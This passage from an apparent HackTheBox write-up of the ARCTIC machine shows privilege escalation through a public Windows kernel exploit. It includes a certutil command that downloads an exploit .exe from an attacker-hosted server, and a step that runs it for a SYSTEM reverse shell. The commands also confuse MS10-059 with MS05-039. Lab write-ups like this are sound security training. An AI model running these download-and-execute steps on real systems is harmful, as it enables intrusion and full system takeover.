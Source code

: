 There's a lot of data here.  After some googling for privilege escalation on ColdFusion I honed in on MS10-059.  There are some compiled exploits available.

```
# git clone https://github.com/SecWiki/windows-kernel-exploits.git
# cd Wndows-kernel-exploits/MS05-039
# ls
MS05-039.exe  PnP_Service.c  README.md

```

Now, normally it's never a good idea to run a precompiled .exe from the internet, but in this case it's stored on a temporary Kali VM and is only going to run on the HTB server.  To get the .exe onto host ARCTIC, I found an easy way is to host in on your Python-based web server and run certutil.

```
> certutil -urlcache -f "http://10.0.0.xx/MS10-059.exe" MS10-059.exe
```

After downloading and running the .exe the instructions tell you to specify an IP and port for the reverse shell.  After opening up a listener port and running it again, you get the shell and the user is SYSTEM.



